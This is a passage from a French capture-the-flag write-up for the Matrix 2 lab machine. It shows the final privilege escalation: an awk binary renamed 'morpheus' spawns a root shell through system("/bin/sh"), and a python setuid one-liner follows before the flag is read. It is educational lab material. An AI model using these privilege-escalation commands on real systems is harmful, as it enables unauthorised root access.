 Il s'avère que le binaire ```/usr/bin/morpheus``` n'est autre que l'utilitaire ```gawk``` qui dispose de son entrée dans [__GTFOBins__](https://gtfobins.github.io/gtfobins/awk/) !

```console
n30@Matrix_2 ~$ /usr/bin/morpheus 'BEGIN {system("/bin/sh")}' 

# id
uid=1000(n30) gid=1000(n30) euid=0(root) groups=1000(n30)

# python -c 'import os; os.setuid(0); os.setgid(0); os.seteuid(0); os.system("/bin/bash")'

root@Matrix_2 /usr/bin# id
uid=0(root) gid=0(root) groups=0(root),1000(n30)
```

Il ne reste plus qu'à lire le flag du concepteur [@unknowndevice64](https://twitter.com/unknowndevice64), et à le remercier chaudement pour cette VM !

```console
root@Matrix_2 ~# cat /root/flag.txt 
╦ ╦┌─┐┬ ┬┬─┐┌─┐  ┌─┐┌─┐┌─┐┌┬┐┌─┐┬─┐  ┌┬┐┬ ┬┌─┐┌┐┌  ┌┬┐┬ ┬┬┌─┐
╚╦╝│ ││ │├┬┘├┤   ├┤ ├─┤└─┐ │ ├┤ ├┬┘   │ ├─┤├─┤│││   │ ├─┤│└─┐
 ╩ └─┘└─┘┴└─└─┘  └  ┴ ┴└─┘ ┴ └─┘┴└─   ┴ ┴ ┴┴ ┴┘└┘   ┴ ┴ ┴┴└─┘o
╔╦╗┌─┐┌┐┌┌┬┐  ┌┬┐┬ ┬┬┌┐┌┬┌─  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐
 ║║│ ││││ │    │ ├─┤││││├┴┐  └┬┘│ ││ │  ├─┤├┬┘├┤
═╩╝└─┘┘└┘ ┴    ┴ ┴ ┴┴┘└┘┴ ┴   ┴ └─┘└─┘  ┴ ┴┴└─└─┘┘
┬┌─┌┐┌┌─┐┬ ┬  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐
├┴┐││││ ││││  └┬┘│ ││ │  ├─┤├┬┘├┤
┴ ┴┘└┘└─┘└┴┘   ┴ └─┘└─┘  ┴ ┴┴└─└─┘o
   ╔╦╗┌─┐┬─┐┌─┐┬ ┬┌─┐┬ ┬┌─┐
───║║║│ │├┬┘├─┘├─┤├┤ │ │└─┐
   ╩ ╩└─┘┴└─┴  ┴ ┴└─┘└─┘└─┘
╔═╗╦╔═╔═╗
╠═╣╠╩╗╠═╣
╩ ╩╩ ╩╩ ╩
┬ ┬┌┐┌┬┌─┌┐┌┌─┐┬ ┬┌┐┌┌┬┐┌─┐┬  ┬┬┌─┐┌─┐
│ ││││├┴┐││││ │││││││ ││├┤ └┐┌┘││  ├┤ 64
└─┘┘└┘┴ ┴┘└┘└─┘└┴┘┘└┘─┴┘└─┘ └┘ ┴└─┘└─┘
```